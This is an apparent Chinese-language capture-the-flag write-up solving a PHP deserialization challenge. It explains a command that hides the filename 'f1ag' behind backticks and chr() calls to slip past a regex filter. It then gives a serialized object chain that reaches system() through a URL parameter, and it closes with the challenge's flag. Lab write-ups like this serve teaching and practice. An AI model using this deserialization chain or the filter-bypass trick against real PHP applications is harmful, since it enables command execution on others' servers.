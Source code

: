 详解代码段

```php
cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`
```

>  1. cd命令，cd到根目录下
>  2. more命令与cat相似，以页的方式查看文件内容
>  3. ``反引号绕过正则过滤
>  4. php输出的字符串作为PHP代码执行
>  5. echo输出命令
>  6. chr()等等可以对照上面的ASCII码chr()对应表

![在这里插入图片描述](https://img-blog.csdnimg.cn/1f7c9c3b9d514deead7bb176116097bc.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/7c3d60301e274fcba5df36841f1cbd67.png)


查看flag文件内容的exp:

序列化后

```php
O:7:"Welcome":2:{s:4:"name";s:13:"A_G00d_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:6:"system";s:3:"cmd";s:60:"cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`";}}}
```

构造payload：

```php
url?data=O:7:"Welcome":2:{s:4:"name";s:13:"A_G00d_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:6:"system";s:3:"cmd";s:60:"cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`";}}}
```

上传payload

回显结果：

![在这里插入图片描述](https://img-blog.csdnimg.cn/391ef6b911e24583acfd0b05880f4d0c.png)

**爆出flag：**

>flag{2246bb5e-1bca-47ae-a698-5837e2ec486b}

此WP笔记由白猫写于2023/10/16 08:05:36

原文链接：https://blog.csdn.net/m0_73734159/article/details/133854073?spm=1001.2014.3001.5502
